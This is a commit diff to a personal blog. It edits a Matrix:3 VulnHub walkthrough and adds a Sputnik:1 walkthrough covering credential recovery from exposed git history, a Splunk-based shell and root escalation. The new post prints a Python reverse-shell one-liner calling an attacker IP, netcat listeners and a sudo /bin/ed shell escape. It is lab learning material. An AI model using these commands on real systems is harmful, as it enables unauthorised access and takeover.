

Before and after one commit to iamnasef/0xnasef.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the top 778 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Sputnik1 Walkthrough

````diff
--- a/_posts/2020-09-25-VH_Matrix_Three.markdown
+++ b/_posts/2020-09-25-VH_Matrix_Three.markdown
@@ -1,7 +1,7 @@
 ---
 layout: post
 title:  "Matrix:3 Vulnhub Walkthrough"
-date:   2020-09-25 15:00:00 +0530
+date:   2020-09-26 15:00:00 +0530
 categories: VulnHub CTF
 ---
 Matrix:3 is a machine in which I used a combination of enumeration and reverse engineering to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.
@@ -83,7 +83,7 @@ tryed to unzip it but failed as it's not a gz file. so i run file command and fo
 
 ![Username](/assets/machines/vulnhub/matrix3/2.png)
 
-I tried to use those credinatials to connect via ssh but no luck . so I tried to access the http service on the other port and found out that there is a basic authenticaion dialog. I used the credintials found above and voila it worked !
+I tried to use those credinatials to connect via ssh but no luck. so, I tried to access the http service on the other port and found out that there is a basic authenticaion dialog. I used the credintials found above and voila it worked!
 
 ![Username](/assets/machines/vulnhub/matrix3/3.png)
 
@@ -148,7 +148,6 @@
 205 0x0000258d 0x0040498d   4   6 ()  utf8 \a@\t blocks=Basic Latin,Combining Diacritical Marks
 206 0x000025c0 0x004049c0  10  11 () ascii "';i6$Jh5c
 
-
 ```
 I found a combination of "guest:7R1n17yN30" Immeditatly I used it to login via ssh
 ## Escalation to Trinity
@@ -168,7 +167,7 @@ User guest may run the following commands on matrix:
     (trinity) NOPASSWD: /bin/cp
 ```
 
-So I thought of generating a ssh key and replacing the existing one on trinity user. so we could access it with the password we generated
+So, I thought of generating a ssh key and replacing the existing one on trinity user. so, we could access it with the password we generated
 ```
 guest@matrix:~$ ssh-keygen
 Generating public/private rsa key pair.
@@ -210,7 +209,7 @@ uid=1001(trinity) gid=1001(trinity) groups=1001(trinity)
 
 ## Escalation to Root
 
-Running sudo -l again , now we could execute a script called oracle as root. but when I cd to /home/trinity I didnt' find this script . so I created a scirpt with a same name containing the word "/bin/bash"
+Running sudo -l again, now we could execute a script called oracle as root. but when I cd to /home/trinity I didnt' find this script. so, I created a scirpt with a same name containing the word "/bin/bash"
 ```
 sh-4.4$ sudo -l
 User trinity may run the following commands on matrix:
@@ -246,7 +245,6 @@ root
 sh-4.4# cd ~
 sh-4.4# cat flag.txt
 
-
              ,----------------,              ,---------,
         ,-----------------------,          ,"        ,"|
       ,"                      ,"|        ,"        ,"  |
@@ -268,7 +266,6 @@ sh-4.4# cat flag.txt
 
 -[ 7h!5 !5 n07 7h3 3nd, m47r!x w!11 r37urn ]-
 
-
 ```
 
 and voila here is the root privilege!
--- /dev/null
+++ b/_posts/2020-09-26-VH_Sputnik_One.markdown
@@ -0,0 +1,231 @@
+---
+layout: post
+title:  "Sputnik:1 Vulnhub Walkthrough"
+date:   2020-09-26 15:00:00 +0530
+categories: VulnHub CTF
+---
+Sputnik:1 is a machine in which I used an enumration to get admin credintials from the history of github repo to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.
+
+## Scanning
+As always, I started scanning with Nmap
+
+```
+root@kali:/home/kali# nmap -sC -sV -p- 192.168.198.141
+Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 08:04 EDT                                                                                           Host is up (0.00067s latency).
+Not shown: 65531 closed ports
+PORT      STATE SERVICE         VERSION
+8089/tcp  open  ssl/http        Splunkd httpd
+| http-robots.txt: 1 disallowed entry
+|_/
+|_http-server-header: Splunkd
+|_http-title: splunkd
+| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
+| Not valid before: 2019-03-29T11:03:21
+|_Not valid after:  2022-03-28T11:03:21
+8191/tcp  open  limnerpressure?
+| fingerprint-strings:
+|   FourOhFourRequest, GetRequest:
+|     HTTP/1.0 200 OK
+|     Connection: close
+|     Content-Type: text/plain
+|     Content-Length: 85
+|_    looks like you are trying to access MongoDB over HTTP on the native driver port.
+55555/tcp open  http            Apache httpd 2.4.29 ((Ubuntu))
+| http-git:
+|   192.168.198.141:55555/.git/
+|     Git repository found!
+|_    Repository description: Unnamed repository; edit this file 'description' to name the...
+|_http-server-header: Apache/2.4.29 (Ubuntu)
+|_http-title: Flappy Bird Game
+61337/tcp open  http            Splunkd httpd
+| http-robots.txt: 1 disallowed entry
+|_/
+|_http-server-header: Splunkd
+| http-title: Site doesn't have a title (text/html; charset=UTF-8).
+|_Requested resource was http://192.168.198.141:61337/en-US/account/login?return_to=%2Fen-US%2F
+1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
+SF-Port8191-TCP:V=7.80%I=7%D=9/26%Time=5F6F2E75%P=x86_64-pc-linux-gnu%r(Ge
+SF:tRequest,A9,"HTTP/1\.0\x20200\x20OK\r\nConnection:\x20close\r\nContent-
+SF:Type:\x20text/plain\r\nContent-Length:\x2085\r\n\r\nIt\x20looks\x20like
+SF:\x20you\x20are\x20trying\x20to\x20access\x20MongoDB\x20over\x20HTTP\x20
+SF:on\x20the\x20native\x20driver\x20port\.\r\n")%r(FourOhFourRequest,A9,"H
+SF:TTP/1\.0\x20200\x20OK\r\nConnection:\x20close\r\nContent-Type:\x20text/
+SF:plain\r\nContent-Length:\x2085\r\n\r\nIt\x20looks\x20like\x20you\x20are
+SF:\x20trying\x20to\x20access\x20MongoDB\x20over\x20HTTP\x20on\x20the\x20n
+SF:ative\x20driver\x20port\.\r\n");
+MAC Address: 00:0C:29:D8:32:B0 (VMware)
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 58.58 seconds
+
+```
+Four HTTP Services is up, the 8089 is down, the 8191 has only text, the 55555 has falappy bird game, and the 61337 has splunk enterprise page which requires user and password.
+## Git History
+I tried SQLmap then bruteforcing the 61337 but it's neither vulerable to SQL Injector nor I got the creds by bruteforcing. the nmap result above shows /.git/ directory so I started reading the files until I got the repo's clone url.
+
+![Username](/assets/machines/vulnhub/sputnik1/1.png)
+
+so I cloned it and browsed it's history until I got a secret file contains a credintials. I tried the credintials on the 61337 http service and it worked!
+
+```
+root@kali:/home/kali/Desktop/temp# git clone https://github.com/ameerpornillos/flappy.git
+Cloning into 'flappy'...
+remote: Enumerating objects: 65, done.
+remote: Total 65 (delta 0), reused 0 (delta 0), pack-reused 65
+Unpacking objects: 100% (65/65), 31.50 KiB | 767.00 KiB/s, done.
+root@kali:/home/kali/Desktop/temp# cd flappy/
+root@kali:/home/kali/Desktop/temp/flappy# git log --stat
+commit 884adf394909a8f5989a163bb666003ea870f582 (HEAD -> master, origin/master, origin/HEAD)
+Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
+Date:   Fri Mar 29 23:22:06 2019 +0800
+
+    Update new file
+
+ index.html | 2 +-
+ 1 file changed, 1 insertion(+), 1 deletion(-)
+
+commit d4a672434b93fd156dd61e2b756048501fe0bbc6
+Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
+Date:   Fri Mar 29 23:21:09 2019 +0800
+
+    Delete new file
+
+ release | 1 -
+ 1 file changed, 1 deletion(-)
+
+....
+
+commit fdd806897314ed67442fd12c4fc0ccc678dc9857
+Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
+Date:   Fri Mar 29 23:18:45 2019 +0800
+
+    Delete new file
+
+ secret | Bin 1538 -> 0 bytes
+ 1 file changed, 0 insertions(+), 0 deletions(-)
+
+commit 5c5d8adcf57267bc0a936a7db21ddb90fcbcd9ca
+Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
+Date:   Fri Mar 29 23:18:11 2019 +0800
+!
+root@kali:/home/kali/Desktop/temp/flappy# git checkout 07fda135aae22fa7869b3de9e450ff7cacfbc717
+Note: switching to '07fda135aae22fa7869b3de9e450ff7cacfbc717'.
+
+You are in 'detached HEAD' state. You can look around, make experimental
+changes and commit them, and you can discard any commits you make in this
+state without impacting any branches by switching back to a branch.
+
+If you want to create a new branch to retain commits you create, you may
+do so (now or later) by using -c with the switch command. Example:
+
+  git switch -c <new-branch-name>
+
+Or undo this operation with:
+
+  git switch -
+
+Turn off this advice by setting config variable advice.detachedHead to false
+
+HEAD is now at 07fda13 Commit new file
+root@kali:/home/kali/Desktop/temp/flappy# ls
+index.html  README.md  secret  sheet.png  sprite.js
+root@kali:/home/kali/Desktop/temp/flappy# cat secret
+sputnik:ameer_says_thank_you_and_good_job
+
+```
+
+![Username](/assets/machines/vulnhub/sputnik1/2.png)
+
+## Basic Shell
+
+I searched for how to get a shell on splunk eterprise and found this amazing article
+https://github.com/TBGSecurity/splunk_shells
+
+I followed the Instructions mentioned, but the shell I got is kindda broken so I started another shell
+
+### Target
+```
+root@kali:/home/kali# nc -lvnp 7777
+listening on [any] 7777 ...
+connect to [192.168.198.137] from (UNKNOWN) [192.168.198.141] 47438
+python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.198.137",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
+
+```
+
+### Hacker
+```
+root@kali:/home/kali# nc -lvnp 1111
+listening on [any] 1111 ...
+connect to [192.168.198.137] from (UNKNOWN) [192.168.198.141] 52444
+/bin/sh: 0: can't access tty; job control turned off
+$ sudo -l
+sudo: no tty present and no askpass program specified
+$ python -c 'import pty; pty.spawn("/bin/bash")'
+```
+
+## Privilege Escalation
+I ran diffreent Enumeration scripts and found an intersting sudo privilege which allows us to run /bin/ed as root. after searching in the gtfio of how to get a root shell. I ran the following commands.
+
+```
+splunk@sputnik:/$ sudo -l
+sudo -l
+[sudo] password for splunk: ameer_says_thank_you_and_good_job
+
+Matching Defaults entries for splunk on sputnik:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User splunk may run the following commands on sputnik:
+    (root) /bin/ed
+splunk@sputnik:/$ sudo /bin/ed
+sudo /bin/ed
+!/bin/sh
+!/bin/sh
+# whoami
+whoami
+root
+# cd ~
+cd ~
+# ls
+ls
+flag.txt
+# cat flag.txt
+cat flag.txt
+ _________________________________________
+/ Congratulations!                        \
+|                                         |
+| You did it!                             |
+|                                         |
+| Thank you for trying out this challenge |
+| and hope that you learn a thing or two. |
+|                                         |
+| Check the flag below.                   |
+|                                         |
+| flag_is{w1th_gr34t_p0w3r_c0m35_w1th_gr3 |
+| 4t_r3sp0ns1b1l1ty}                      |
+|                                         |
+| Hope you enjoy solving this challenge.  |
+| :D                                      |
+|                                         |
+\ - ameer (from hackstreetboys)           /
+ -----------------------------------------
+      \                    / \  //\
+       \    |\___/|      /   \//  \\
+            /0  0  \__  /    //  | \ \
+           /     /  \/_/    //   |  \  \
+           @_^_@'/   \/_   //    |   \   \
+           //_^_/     \/_ //     |    \    \
+        ( //) |        \///      |     \     \
+      ( / /) _|_ /   )  //       |      \     _\
+    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
+  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
+ (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
+ (( /// ))      `.   {            }                   /      \  \
+  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
+             ///.----..>        \             _ -~             `.  ^-`  ^-_
+               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
+                                                                  /.-~
+
+```
+
+and voila here is the root privilege!
````
Also changed, not shown: assets/machines/vulnhub/sputnik1/1.png (added), assets/machines/vulnhub/sputnik1/2.png (added).
